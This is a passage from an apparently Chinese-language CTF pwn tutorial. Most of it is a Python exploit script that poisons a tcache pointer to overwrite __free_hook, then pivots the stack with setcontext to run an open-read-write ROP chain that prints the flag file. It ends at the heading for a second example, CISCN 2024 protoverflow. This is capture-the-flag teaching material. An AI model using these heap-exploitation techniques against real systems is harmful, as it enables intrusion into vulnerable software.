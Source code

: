    ```python
   ret= libc_base + 0x000000000002601f+1
   
   # ORW
   syscall = read_addr+14
   flag = heap_addr+0x2F0
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(read_addr)     
   
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(write_addr)
   orw+=b"./flag\x00"
   add(5,0xf0,orw)    # 填入ORW
   
   # 申请chunk到free_hook 天入gadget 并准备chunk进行栈迁移
   new_chunk = heap_addr + 0xD20
   gadget_rdi_rdx = 0x0000000000151990 + libc_base
   
   edit(6,p64(free_hook_addr-0x8))     #修改next指针
   payload = p64(0) + p64(new_chunk) + p64(0)*2 + p64(setcontext_addr)
   payload = payload.ljust(0xa0,b"\x00")
   payload += p64(heap_addr + 0x11F0) + p64(ret)
   
   add(9,0xf0,payload)
   add(10,0xf0,p64(0) + p64(gadget_rdi_rdx))       # 修该free_hook
   
   free(9)    # 触发
   p.interactive()
   ```

## 例题2：[CISCN 2024]protoverflow

### 分析：
